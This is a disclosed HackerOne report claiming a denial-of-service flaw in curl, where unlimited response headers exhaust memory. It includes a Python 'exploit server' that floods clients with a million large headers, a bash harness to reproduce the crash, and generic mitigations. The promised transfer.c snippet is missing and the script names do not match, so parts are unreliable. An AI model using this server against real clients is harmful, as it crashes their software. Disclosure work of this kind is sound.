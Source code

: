 # Denial of Service in curl Request - HTTP headers eat all memory

## Report Details
- **Report ID**: 2552192
- **URL**: https://hackerone.com/reports/2552192
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-06-14T09:03:18.676Z
- **Disclosed**: 2024-06-18T10:51:53.672Z

## Reporter
- **Username**: stux3net08
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Curl's unrestricted header storage lets malicious servers overwhelm memory, leading to out of Memory ( DOS) . When curl retrieves an HTTP response, it stores the incoming headers so that they can be accessed later via the libcurl headers API. However, curl did not have a limit on how many or large headers it would accept in response, allowing a malicious server to stream an endless series of headers and eventually cause curl to run out of heap memory. 

** Tested Versions ** 
```
unfixed in curl 8.7.1 (x86_64-pc-linux-gnu) libcurl/8.7.1 OpenSSL/3.2.2 zlib/1.3.1 brotli/1.1.0 zstd/1.5.5 libidn2/2.3.7 libpsl/0.21.2 libssh2/1.11.0 nghttp2/1.61.0 librtmp/2.3 OpenLDAP/2.5.13

Release-Date: 2024-03-27, security patched: 8.7.1-5
Protocols: dict file ftp ftps gopher gophers http https imap imaps ipfs ipns ldap ldaps mqtt pop3 pop3s rtmp rtsp scp sftp smb smbs smtp smtps telnet tftp

Features: alt-svc AsynchDNS brotli GSS-API HSTS HTTP2 HTTPS-proxy IDN IPv6 Kerberos Largefile libz NTLM PSL SPNEGO SSL threadsafe TLS-SRP UnixSockets zstd
```

**Vulnerability insight**

From the breakdown of the below , we can see that the vulnerability is found where cURL cannot limit the number of headers to be stored.
Headers are fundamental in HTTP communication, providing metadata and instructions for how requests and responses should be handled (such as Host, Set-Cookie, Content-Type, Content-Length, etc.). Typically, headers are stored directly in memory so that they can be accessed by applications via the libcurl headers API.If cURL does not enforce limits on the number or size of headers, it can lead to memory exhaustion and potential application crashes, causing a denial of service (DoS) attack.
Now consider this vulnerable code snippet of transfer.c file of cURL's core library. This file handles data transfers, managing the process of sending requests and receiving responses over various protocols (like HTTP, FTP, etc.).
 

## Steps To Reproduce:
1.  This  is a Python script which creates a simple HTTP server that serves as an exploit server , It is designed to simulate a vulnerability where an excessive number of HTTP headers are sent in the response, potentially causing memory exhaustion on the client side.
```
import http.server
import socketserver

class ExploitHTTPRequestHandler(http.server.SimpleHTTPRequestHandler):
    def send_headers(self):
        for i in range(1000000):  # Large number to exhaust heap memory
            self.send_header(f'X-Excessive-Header-{i}', 'A' * 1000)
        self.end_headers()

    def do_GET(self):
        self.send_response(200)
        self.send_headers()
        self.wfile.write(b'Exploit server response')

def run(server_class=http.server.HTTPServer, handler_class=ExploitHTTPRequestHandler, port=8080):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Starting exploit server on port {port}')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

2 . Next, we create a bash file called  curl_memory.sh. Copy the bash script into the bash file , Below is the bash script. This will be used to run the exploit_server.py file and curl command . 
```
#!/bin/bash
# Function to clean up background processes
cleanup() {
    kill $EXPLOIT_SERVER_PID
    exit
}
# Trap the exit signal to ensure cleanup
trap cleanup EXIT
# Start the exploit server in the background
python3 exploit_server.py &
EXPLOIT_SERVER_PID=$!
# Allow the server to start
sleep 2
# Run curl and capture its PID
curl http://localhost:8080 &
CURL_PID=$!
# Allow some time for curl to start
sleep 1
# Check if the curl process is running and monitor its memory usage
if ps -p $CURL_PID > /dev/null; then
    echo "Monitoring curl (PID: $CURL_PID) memory usage..."
    while ps -p $CURL_PID > /dev/null; do
        ps -o pid,rss,vsize,comm -p $CURL_PID
        sleep 1
    done
else
    echo "Curl process not found"
fi
# Wait for the curl process to complete
wait $CURL_PID
# Cleanup
kill $EXPLOIT_SERVER_PID  
```
3. To check the memory while running the script, open another terminal and run.
```
htop
```
Once that is done, we run these commands:
```
chmod +x monitor_curl_memory
./curl_memory

```

```
dmesg | grep -i "out of memory"

```

**Mitigation** 

1. Enforce Header Limits: Set restrictions on header size and number using curl options.

2. Review Application Code: Check your code for proper handling of HTTP response headers to prevent memory issues.

3. Network Filtering: Employ firewalls or WAFs to detect and block malicious traffic exploiting this vulnerability.

4. Monitor Memory Usage: Regularly monitor memory usage and set up alerts for abnormal consumption.


## Supporting Material/References:

https://learn.microsoft.com/en-us/answers/questions/1409035/curl-7-69-(-8-4-0-heap-buffer-overflow-and-curl-7
https://hackerone.com/reports/2072338

## Impact

DOS/overloading of user's system through malicious HTTP server interaction with curl's header parsing.

## Attachments
- Poc.jpg
